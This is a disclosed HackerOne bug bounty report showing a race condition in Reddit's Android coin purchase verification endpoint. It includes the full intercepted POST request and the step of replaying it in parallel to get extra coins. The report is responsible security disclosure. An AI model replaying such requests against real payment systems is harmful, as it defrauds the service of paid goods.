 # Race condition leads to Inflation of coins when bought via Google Play Store at endpoint https://oauth.reddit.com/api/v2/gold/android/verify_purchase 

## Report Details
- **Report ID**: 801743
- **URL**: https://hackerone.com/reports/801743
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-02-21T14:59:18.012Z
- **Disclosed**: 2021-10-27T14:08:20.920Z

## Reporter
- **Username**: yashrs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
Hi,

## Summary:
When we purchase coins from Reddit's mobile app using Android, https://oauth.reddit.com/api/v2/gold/android/verify_purchase is called with parameters like `transaction_id` and `token`. There exists a race condition on this endpoint which allows an attacker to get coins many times more than it was intended to.


## Steps To Reproduce:
- Go to the Reddit app, click on the top right corner which has a coin icon and says `Get`:

- Select a basic 50 coins package, and intercept this request when the purchase is completed:

```
POST /api/v2/gold/android/verify_purchase?raw_json=1&feature=link_preview&sr_detail=true&expand_srs=true&from_detail=true&api_type=json&raw_json=1&always_show_media=1&request_timestamp=1582296187715 HTTP/1.1
Authorization: Bearer REDACTED
Client-Vendor-ID: REDACTED
x-reddit-device-id: REDACTED
User-Agent: Reddit/Version 2020.5.0/Build 255357/Android 9
X-Dev-Ad-Id: REDACTED
x-reddit-session: REDACTED
x-reddit-loid: REDACTED
x-reddaid: REDACTED
Content-Type: application/x-www-form-urlencoded
Content-Length: 327
Host: oauth.reddit.com
Connection: keep-alive
Accept-Encoding: gzip, deflate

transaction_id=GPA.3390-9967-2355-57063&token=effmpcoplmjonhljkheipnce.AO-J1OyQ3ZXb7XM7JwoJPJqpNP3LgWYqHYUUmOE7o5hCzQtf4TC8GL0i71zvRVeZKl-I5rlQCfM0ID3Z0P8CTFSUmhbdbPvQwOIN0164LBE647_lDvB9aHzk2naeC59hSFrtJJYkYj2b&package_name=com.reddit.frontpage&product_id=com.reddit.coins_1&correlation_id=394e65c9-5f9d-45e7-a9b4-498ed64251cd
```

- We can simply repeat this request in parallel to get more coins.

I did 10 parallel requests and got 9 of them through. An actual attacker will do more requests and get more coins. Like for example, they can do 40 requests and maybe if 35 of them get through they have 35x times the coins intended.

Transaction ID for reference: `GPA.3390-9967-2355-57063`

Proof:
{F724269}
{F724270}
{F724271}
███

Regards,
Yash

## Impact

Due to a race condition on https://oauth.reddit.com/api/v2/gold/android/verify_purchase, an attacker can get more coins than what they purchased it for. This can lead to a huge business loss for Reddit, that's why I have marked this as High.

## Attachments
- Screenshot_20200221-201400.jpg
- Screen_Shot_2020-02-21_at_8.26.55_PM.png
- Screen_Shot_2020-02-21_at_8.26.39_PM.png
